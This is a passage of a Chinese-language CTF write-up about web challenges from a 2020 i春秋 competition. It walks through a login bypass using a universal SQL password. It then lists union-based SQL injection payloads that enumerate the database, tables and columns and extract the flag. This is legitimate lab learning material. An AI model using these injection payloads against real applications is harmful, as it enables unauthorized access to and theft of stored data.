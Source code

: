 > 原文链接: https://www.anquanke.com//post/id/199491 


# 2020新春战疫网络安全公益赛部分Web Writeup


                                阅读量   
                                **843279**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t01fba1d36431aa6d86.jpg)](https://p0.ssl.qhimg.com/t01fba1d36431aa6d86.jpg)



## 前言

最近因为疫情，在家里都没怎么出门，正好i春秋平台举办了`2020新春战疫网络安全公益赛`。学到了一些骚姿势，师傅们都tql了。。。



## DAY1

### <a class="reference-link" name="%E7%AE%80%E5%8D%95%E7%9A%84%E6%8B%9B%E8%81%98%E7%B3%BB%E7%BB%9F"></a>简单的招聘系统

打开页面发现是一个登陆框，直接注册账号登陆进去。发现需要管理员登陆，才能解锁新功能。

在那里xss了半天，没有结果。。。。

最后重新回到登陆页面，使用万能密码登陆，发现能登进去，但是是我刚刚注册的账号，于是重新下发题目，，直接万能密码登陆，发现成功登陆了管理员的账号。

在新功能页面，发现存在注入，可以通过联合注入<br>
没有任何过滤，就是正常的联合注入，能够注出`flag`<br>
测试发现回显的字段在2

```
1' union select 1,database(),3,4,5#
nzhaopin

1' union select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema=database()#
backup,flag,user

1' union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema=database()#

id,safekey,profile,id,flaaag,id,username,password,safekey,profile

1' union select 1,group_concat(flaaag),3,4,5 from flag#
flag`{`9cbb834c-0562-4503-a703-0d2092a220bc`}`

```
